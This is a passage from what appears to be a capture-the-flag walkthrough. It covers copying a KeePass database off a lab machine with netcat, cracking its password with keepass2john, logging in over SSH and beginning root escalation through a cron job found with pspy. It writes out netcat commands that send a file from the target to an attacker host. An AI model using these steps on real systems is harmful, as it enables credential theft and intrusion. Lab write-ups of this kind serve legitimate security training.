 ![](6.png)

This is a keepass database file which means it may have some passwords.

Let's transfer the file to our machine using the same netcat technique we used earlier

On out attacking box we setup a listener that saves anything that comes to it to a file.

```bash
nc -lvnp 1234 > dataset.kbdx
```

Now on the target machine we send the file using this command.

```bash
nc 10.10.10.10 1234 < datase.kdbx
```

> DOn't forget to change the ip in the command to your tun0 ip.


To read the file we need a password, and that we don't have.

### john

We can use `keepass2john` to extract the hash of the password and then crack it.

![](7.png)

We got the password, now let's read the file.

![](8.png)

Great! We got `sysadmin` password. Let's ssh to the box as sysadmin.

![](9.png)

## root

While i was testing the upload functionality in the website, i noticed that images i upload gets deleted, so there must be a cronjob running.

The `/etc/crontab` file doesn't show anything so i uploaded `pspy64` and run it to find the following results.

![](10.png)

Here we see what the webapp was using to upload the files and how we exploited that.

![](11.png)

And here we see root is running a php scripts that's located in our home directory, let's check that file.

![](12.png)

Unfortunately the file is owned by root and we can't change it and the scripts directory is also owned by root.
